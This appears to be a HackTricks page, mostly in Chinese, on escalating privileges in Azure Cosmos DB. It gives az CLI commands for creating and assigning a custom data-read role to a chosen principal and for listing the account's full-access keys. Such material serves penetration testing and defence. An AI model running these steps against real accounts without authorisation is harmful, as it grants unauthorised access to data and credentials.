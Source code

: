# Az - CosmosDB Privesc

{{#include ../../../banners/hacktricks-training.md}}

## CosmosDB Privesc
有关 SQL 数据库的更多信息，请查看：

{{#ref}}
../az-services/az-cosmosDB.md
{{#endref}}

### (`Microsoft.DocumentDB/databaseAccounts/sqlRoleDefinitions/write`, `Microsoft.DocumentDB/databaseAccounts/sqlRoleDefinitions/read`) & (`Microsoft.DocumentDB/databaseAccounts/sqlRoleAssignments/write`, `Microsoft.DocumentDB/databaseAccounts/sqlRoleAssignments/read`)

通过这些权限，您可以提升特权，给予用户执行查询和连接到数据库的权限。首先创建一个角色定义，赋予必要的权限和范围。
```bash
az cosmosdb sql role definition create \
--account-name <account_name> \
--resource-group <resource_group_name> \
--body '{
"Id": "<Random-Unique-ID>", # For example 12345678-1234-1234-1234-123456789az
"RoleName": "CustomReadRole",
"Type": "CustomRole",
"AssignableScopes": [
"/subscriptions/<subscription_id>/resourceGroups/sqldatabase/providers/Microsoft.DocumentDB/databaseAccounts/<account_name>"
],
"Permissions": [
{
"DataActions": [
"Microsoft.DocumentDB/databaseAccounts/readMetadata",
"Microsoft.DocumentDB/databaseAccounts/sqlDatabases/containers/items/read",
"Microsoft.DocumentDB/databaseAccounts/sqlDatabases/containers/*"
]
}
]
}'
```
之后，定义的分配被给予一个用户。在此之后，该用户可以使用 DefaultAzureCredential() 连接方法来执行查询。
```bash
az cosmosdb sql role assignment create \
--account-name <account_name> \
--resource-group <resource_group_name> \
--role-definition-id <Random-Unique-ID-used-in-definition> \
--principal-id <principal_id-togive-perms> \
--scope "/"
```
### `Microsoft.DocumentDB/databaseAccounts/listKeys/action`
通过此权限，您可以检索 Azure Cosmos DB 帐户的主密钥和次密钥。这些密钥提供对数据库帐户及其资源的完全访问权限，使您能够执行数据读取、写入和配置更改等操作。
```bash
az cosmosdb keys list \
--name <account_name> \
--resource-group <resource_group_name>

```
{{#include ../../../banners/hacktricks-training.md}}
